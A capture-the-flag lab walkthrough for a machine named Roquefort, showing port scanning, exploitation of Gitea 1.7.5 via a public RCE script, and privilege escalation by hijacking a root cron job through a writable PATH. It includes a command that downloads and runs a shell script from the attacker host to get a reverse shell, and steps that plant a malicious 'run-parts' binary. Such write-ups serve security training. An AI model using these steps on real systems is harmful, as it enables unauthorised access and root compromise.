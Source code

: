 # Roquefort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.67 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:40 +08
Nmap scan report for 192.168.157.67
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
2222/tcp open   EtherNetIP-1
3000/tcp open   ppp
```

FTP does not allow for anonymous logins.

### Web Enum --> Gitea RCE

Only port 3000 has a webpage:

<figure><img src="../../../.gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

In the bottom left, we can see the version, which is vulnerable to RCE:

```
$ searchsploit gitea 1.7.5
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Gitea 1.7.5 - Remote Code Execution                        | multiple/webapps/49383.py
----------------------------------------------------------- ---------------------------------
```

We can create any account, and then use these settings:

```
USERNAME = "test123"
PASSWORD = "test123"
HOST_ADDR = '192.168.45.196'
HOST_PORT = 3000
URL = 'http://192.168.157.67:3000'
CMD = 'wget http://192.168.45.196:21/shell.sh && bash shell.sh'
```

We would then get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (1547).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Path --> Root

`linpeas.sh` picked up that we can write to the Systemd PATH:

<figure><img src="../../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

This means we just need to find some process from `root` that doesn't use the full PATH. I used `pspy64` to find such a process.

```
2023/07/15 22:55:01 CMD: UID=0    PID=13493  | run-parts --report /etc/cron.hourly 
```

`run-parts` should work.&#x20;

```
chloe@roquefort:/tmp$ which run-parts
/bin/run-parts
```

Since the `/bin` directory is the last in PATH, we can place our malicious binary within `/usr/local/bin` to be executed first.&#x20;

```bash
cd /usr/local/bin
wget 192.168.45.196:21/run-parts
chmod 777 run-parts
```

Then, start a listener port and wait for `root` to execute the binary:

<figure><img src="../../../.gitbook/assets/image (3443).png" alt=""><figcaption></figcaption></figure>
